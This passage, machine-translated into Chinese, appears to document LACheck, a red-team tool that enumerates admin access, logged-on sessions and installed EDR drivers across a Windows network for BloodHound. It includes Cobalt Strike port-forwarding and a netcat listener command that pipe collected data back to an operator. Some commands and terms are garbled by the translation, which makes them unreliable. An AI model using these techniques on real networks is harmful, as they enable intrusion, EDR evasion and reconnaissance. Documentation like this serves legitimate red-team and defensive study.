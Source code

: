 此输出仅用于使用单个用户的更新管理权限和从已识别管理权限的主机收集的会话来扩充现有 BloodHound 集合

开关会将一个随机命名的加密 zip 文件写入磁盘，该文件可以下载、解压缩并上传到 BloodHound

**/用户**

BloodHound 要求将用户和计算机解析为 sid。由于模仿技术，如 Cobalt Strike 的`**make_token**`和`**kerberos_ticket_use**`，LACheck 可能无法准确地确定集合的用户上下文。`**/user**`参数需要向 LACheck 提供运行它的上下文的用户主体名称(format = `**samaccountname@domain.tld**`)，以便准确地关联集合信息。

**/插座**

BloodHound 的输出可以发送到 TCP 套接字，而不是写入磁盘。

如果 TCP 连接失败，BloodHound 输出将被写入磁盘。

在 Cobalt Strike 信标中，可以使用`**rportfwd_local**`将 TCP 连接从主机转发回操作员的本地机器:

**rportfwd _ local 8888 127 . 0 . 0 . 1 8888**

然后，操作员可以使用 netcat 将 TCP 流的输出通过管道传输到本地文件:

**NC-lvnp 8888>computers . JSON**

**枚举方法**

**业绩总结**

|  | 服务器信息块 | WMI | WinRM |
| --- | --- | --- | --- |
| /edr | 快的 | 快的 | 快的 |
| /登录 | 快的 | 快的 | 快的 |
| /服务 | 慢的 | 快的 | 快的 |
| /注册表 | 慢的 | 快的 | – |

–=未实施

**中小企业**

/edr

灵感来源于 harleyQu1nn 的 EDR.cna 剧本

目录。GetFiles 方法从以下位置返回驱动程序列表:

*   \ \ host \ C $ \ windows \ system32 \ drivers
*   \ \ host \ C $ \ windows \ sysnative \ drivers

根据 EDR 供应商使用的已知驱动程序列表来查找驱动程序。

**示例输出作为 svcadmin 用户运行**

**【EDR】web 01–发现:CrowdStrike，sentinel one(svcadmin)
【EDR】dev 02–未发现 EDR(svcadmin)**

**/登录次数**

NetWkstaUserEnum 返回交互式、服务和批量登录的用户列表

WTSEnumerateSessionsA 返回主机上的 RDP 会话列表
